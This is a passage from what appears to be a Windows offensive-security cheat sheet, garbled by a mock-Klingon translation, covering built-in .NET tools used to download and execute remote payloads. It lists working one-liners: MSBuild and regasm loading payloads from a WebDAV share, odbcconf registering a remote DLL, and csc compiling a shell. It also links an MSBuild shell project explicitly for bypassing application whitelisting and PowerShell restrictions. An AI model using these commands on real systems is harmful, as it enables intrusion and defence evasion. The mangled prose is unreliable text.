 * [ghaH](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)
```
cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"
```
**Translation:**

**You can use this technique to bypass Application Whitelisting and Powershell.exe restrictions. As you will be prompted with a PS shell.\
Just download this and execute it: [https://raw.githubusercontent.com/Cn33liz/MSBuildShell/master/MSBuildShell.csproj](https://raw.githubusercontent.com/Cn33liz/MSBuildShell/master/MSBuildShell.csproj)**
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe MSBuildShell.csproj
```
**ghItlh**

## **CSC**

vItlhutlh C# code vItlhutlh vItlhutlh.
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:shell.exe shell.cs
```
**ghItlhvam**

* [ghItlhvam](https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc) vItlhutlh.

**ghItlhvam**

* [ghItlhvam](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll
```
**jIyajbe'**

[**https://gist.github.com/Arno0x/71ea3afb412ec1a5490c657e58449182**](https://gist.github.com/Arno0x/71ea3afb412ec1a5490c657e58449182)

## Odbcconf

* [ghorgh](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)
```bash
odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
```
**jIyajbe'** 

[**https://gist.github.com/Arno0x/45043f0676a55baf484cbcd080bbf7c2**](https://gist.github.com/Arno0x/45043f0676a55baf484cbcd080bbf7c2)

## Powershell Shells

### PS-Nishang
